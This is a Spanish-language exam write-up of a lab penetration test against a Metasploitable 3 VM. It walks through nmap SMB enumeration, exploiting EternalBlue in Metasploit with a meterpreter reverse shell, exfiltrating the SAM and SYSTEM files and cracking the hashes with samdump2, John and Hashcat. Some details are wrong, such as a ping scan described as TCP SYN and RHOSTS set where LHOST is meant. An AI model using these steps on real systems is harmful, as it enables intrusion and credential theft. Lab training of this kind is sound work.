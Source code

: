 ```yaml
---
title: EXAMEN PARCIAL
date: 2024-11-03 00:00:00 -05:00
categories: [reconnaissance, weaponization , delivery exploitation, installation , actions on object, Conclusions]
tags: [nmap, kali linux , metasploit]  # TAG names should always be lowercase
---
```

# **2.1. Escaneo de Red y Enumeración de Servicios** 
Utiliza Nmap desde tu máquina atacante para descubrir servicios activos en la máquina objetivo. Debes identificar los puertos relacionados con SMB y verificar si SMBv1 está habilitado.
Tip: Investiga cuáles son los 02 puertos asociados con el servicio SMB. Luego, investiga como puedes usar nmap con el flag --script para una enumeración detallada. Al analizar el output del comando, buscar específicamente el término SMBv1 o el protocolo NT LM 0.12 en la lista de protocolos. Ello indicará la presencia del servicio SMBv1.
Escribe el comando que usaste en Nmap y explica brevemente cómo determina si SMBv1 está activo.

![IMG1](/assets/imagen/image1.png)

Realizamos habilitar el rol file service.

![IMG2](/assets/imagen/image2.png)

Para descubrir los servicios activos en la máquina objetivo y verificar si SMBv1 está habilitado, se puede utilizar el siguiente comando Nmap:

![IMG3](/assets/imagen/image3.png)

![IMG4](/assets/imagen/image4.png)

El comando sudo nmap -sn 10.0.2.0 (privilegio administrador ) realiza un escaneo de red de tipo ping (TCP SYN) en la red 10.0.2.0/24, que abarca 256 direcciones IP (de 10.0.2.1 a 10.0.2.254).

![IMG5](/assets/imagen/image5.png)

Los dos puertos más comúnmente asociados con el servicio SMB (Server Message Block) son:
Puerto 139 (NetBIOS-ssn): Este puerto se utiliza para el tráfico SMB/CIFS (Common Internet File System) a través de NetBIOS. 
 Puerto 445 (Microsoft-ds): Este puerto se utiliza para el tráfico SMB/CIFS directamente sobre TCP/IP, sin utilizar NetBIOS.
En Metasploitable 3 nos  muestra la conexiones locales con los puertos.

![IMG6](/assets/imagen/image6.png)

![IMG7](/assets/imagen/image7.png)

smb-enum-shares:
Este script enumera los recursos compartidos SMB disponibles en la máquina objetivo.
El resultado mostrará una lista de los recursos compartidos, junto con información como el nombre del recurso, los permisos de acceso, y si el recurso está oculto o no.

smb-enum-users:
1	Este script enumera los usuarios del sistema operativo a los que se puede acceder a través de SMB.
2	El resultado mostrará una lista de usuarios, junto con su nombre de usuario, identificador de usuario (RID) y otros detalles.
smb-protocols:
3	Este script verifica qué versiones de SMB (incluyendo SMBv1) están habilitadas en el sistema.
4	El resultado mostrará una lista de los protocolos SMB soportados por el servidor, incluyendo si SMBv1 está presente.

![IMG8](/assets/imagen/image8.png)

El proceso para escanear la red y enumerar los servicios activos, específicamente los relacionados con SMB, en la máquina objetivo usando Nmap es el siguiente:
1.	Utilizar el comando nmap -sn 10.0.2.0/24 para realizar un escaneo de tipo ping en la red 10.0.2.0/24 y determinar qué hosts están activos.
2.	Una vez identificados los hosts activos, utilizar el comando nmap -p139,445 --script=smb-enum-shares,smb-enum-users,smb-protocols  10.0.2.4 para enumerar los servicios SMB.

# **2.2. Exploración de la Vulnerabilidad (2 puntos)
![IMG9](/assets/imagen/image9.png)
![IMG10](/assets/imagen/image10.png)

El funcionamiento :
msfconsole -q
Es la interfaz de línea de comandos principal del framework Metasploit, una herramienta de pruebas de penetración ampliamente utilizada en el mundo de la seguridad informática.
use exploit/windows/smb/ms17_010_eternalblue 
El Funcionamiento del módulo exploit/windows/smb/ms17_010_eternalblue:
1.	El módulo aprovecha la vulnerabilidad EternalBlue (MS17-010) en la implementación de SMBv1 en sistemas operativos Windows.
2.	Cuando se ejecuta este módulo, Metasploit envía una serie de solicitudes SMB especialmente diseñadas al sistema objetivo.
3.	Estas solicitudes SMB explotan la vulnerabilidad EternalBlue, lo que permite la ejecución de código arbitrario en el sistema objetivo.
4.	Una vez que se logra la ejecución de código, el módulo establece una conexión de tipo reverse shell, donde el sistema objetivo se conecta de vuelta a la máquina atacante, permitiendo así el acceso remoto al sistema.

![IMG11](/assets/imagen/image11.png)
Donde los comandos 

```
  set RHOSTS 10.0.2.4
```

```
  set RHOSTS 10.0.2.9
```
 
Donde <10.0.2.4 > es la dirección IP de la máquina objetivo y <10.0.2.9> es la dirección IP de la máquina atacante.
Verificar que el módulo esté configurado correctamente:

show options

Ejecutar el módulo para explotar la vulnerabilidad:
Exploit

# **2.3. Configuración del Exploit en el Framework Metasploit (2 puntos)

Ingresamos los datos de dirección de host local (LHOST), host remoto (RHOST) y PAYLOAD (windows/x64/meterpreter/reverse_tcp) para posteriormente ejecutar con el comando exploit o run . Se debe configurar ambas direcciones de víctima y atacante para definir el ataque, ya que si no se especifican los hosts, el sploit podrá realizarse hacia otros hosts , servidores o gateways presentes en la red.

![IMG12](/assets/imagen/image12.png)

# ** 2.4. Ejecución del Exploit : Luego de ejecutar el exploit, se observa el proceso de conexión, envío de paquetes y otros procedimientos. Al final se observará la conexión y sesión con meterpreter.

![IMG13](/assets/imagen/image13.png)

 # **2.5. Exfiltración de Archivos SAM y SYSTEM

 Verficamos :  utilizando la sesión de Meterpreter establecida, puedes ejecutar el script vssown.vbs para crear una copia de volumen de sombra de la unidad principal (C:) del servidor. Este script se puede descargar desde el enlace proporcionado

 Los pasos a seguir serían:

Utilizando la sesión de Meterpreter establecida, ejecutar el script vssown.vbs para crear una copia de volumen de sombra de la unidad principal (C:) del servidor.
Determinar la ubicación de la copia de sombra creada, que tendrá una ruta similar a \?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX.
Emplear comandos de Meterpreter, como cat o download, para copiar los archivos SAM y SYSTEM desde la copia de sombra a un directorio accesible.
Finalmente, descargar los archivos SAM y SYSTEM a la máquina atacante utilizando el comando download de Meterpreter.

verificamos en el terminal usando change directory o cd:

 ![IMG14](/assets/imagen/image14.png)

 ![IMG16](/assets/imagen/image15.png)

  # ** 2.6. Análisis de los Archivos Exfiltrados 

  Utilizar la herramienta samdump2 para extraer los hashes de contraseñas a partir de los archivos SAM y SYSTEM. Samdump2 es una herramienta especializada en la extracción de hashes de contraseñas de estos archivos. Comando:

  ```
  samdump2 SAM SYSTEM > hashes.txt
```
Esto generará un archivo hashes.txt que contendrá los hashes extraídos.
Una vez que tengas los hashes, podrías intentar descifrarlos utilizando herramientas de cracking de contraseñas, como John the Ripper o Hashcat. Para John the Ripper:

 ```
  john --format=NT hashes.txt
```
Este comando intentará descifrar los hashes utilizando el modo de ataque predeterminado de John the Ripper. Para Hashcat:

 ```
  hashcat -m 1000 -a 0 hashes.txt /path/to/wordlist.txt
```

Este comando utilizará Hashcat en modo de ataque de diccionario, con el tipo de hash 1000 (NTLM), para intentar descifrar los hashes utilizando la wordlist especificada.

